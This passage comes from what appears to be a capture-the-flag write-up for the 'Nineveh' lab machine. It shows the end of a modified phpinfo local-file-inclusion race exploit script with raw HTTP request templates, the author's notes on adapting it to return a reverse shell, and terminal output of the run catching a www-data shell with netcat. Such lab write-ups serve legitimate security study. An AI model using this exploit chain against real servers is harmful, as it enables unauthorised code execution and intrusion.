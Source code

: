 ```
Cookie: PHPSESSID=""" + phpsessid + """; othercookie="""+padding+"""\r
HTTP_ACCEPT: """ + padding + """\r
HTTP_USER_AGENT: """+padding+"""\r
HTTP_ACCEPT_LANGUAGE: """+padding+"""\r
HTTP_PRAGMA: """+padding+"""\r
Content-Type: multipart/form-data; boundary=---------------------------7dbff1ded0714\r
Content-Length: %s\r
Host: %s\r
\r
%s""" %(len(REQ1_DATA),host,REQ1_DATA)
    #modify this to suit the LFI script   
    LFIREQ="""GET /department/manage.php?notes=/ninevehNotes/..%s HTTP/1.1\r
User-Agent: Mozilla/4.0\r
Proxy-Connection: Keep-Alive\r
Cookie: PHPSESSID=""" + phpsessid + """\r
Host: %s\r
\r
\r
"""
    return (REQ1, TAG, LFIREQ)

```

I made the following changes:
- Changed the payload so that it will return a reverse shell to the ip and port specified above.
- Changed the POST path in `REQ1` to `/info.php` rather than `/phpinfo.php` to match Nineveh.
- Changed the POST path in `LFIREQ` to the Nineveh LFI.
- Added a `PHPSESSID` cookie to the `LFIREQ` so that I could access the LFI.

The other thing I had to change was two places in the code where it looks in a response for `[tmp_name] =>`. PHP now HTML encodes that to `[tmp_name] =&gt;`, so I need to fix that. Interestingly enough, in the paper it also has the encoded version, so it might just be an error in the script.

### Shell

With those changes in place, I can run the script with a `nc` listener waiting:

```

root@kali# python phpinfolfi.py 10.10.10.43 80 100
LFI With PHPInfo()
-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
Getting initial offset... found [tmp_name] at 125163
Spawning worker pool (100)...
 101 /  1000

```

It froze at that point, with a shell on `nc`:

```

root@kali# nc -lnvp 443
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.43.
Ncat: Connection from 10.10.10.43:43916.
bash: cannot set terminal process group (1387): Inappropriate ioctl for device
bash: no job control in this shell
www-data@nineveh:/var/www/html/department$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)

```

